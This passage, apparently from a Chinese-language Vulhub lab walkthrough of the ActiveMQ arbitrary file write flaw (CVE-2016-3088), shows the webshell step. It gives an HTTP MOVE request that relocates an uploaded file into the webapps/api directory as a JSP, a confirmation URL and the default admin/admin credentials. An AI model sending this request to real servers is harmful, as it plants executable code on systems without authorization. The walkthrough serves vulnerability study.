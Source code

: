 ![确认文件 test.txt 已经上传](./../../../../images/Vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E7%A1%AE%E8%AE%A4%E6%96%87%E4%BB%B6%20test.txt%20%E5%B7%B2%E7%BB%8F%E4%B8%8A%E4%BC%A0.png)

移动到 `web` 目录下的 `api` 文件夹（`/opt/activemq/webapps/api/test.jsp`）中

```http
MOVE /fileserver/test.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/test.jsp
Host: centos.local:8161
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Fri, 13 Feb 2015 17:54:40 GMT
Connection: close
Content-Length: 0


```

访问 `http://centos7-6.local:8161/api/test.jsp` ，确认文件 `test.jsp` 已经上传

> 用户名：	admin
>
> 密码：		admin

![确认文件 test.jsp 已经上传](./../../../../images/Vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E7%A1%AE%E8%AE%A4%E6%96%87%E4%BB%B6%20test.jsp%20%E5%B7%B2%E7%BB%8F%E4%B8%8A%E4%BC%A0.png)
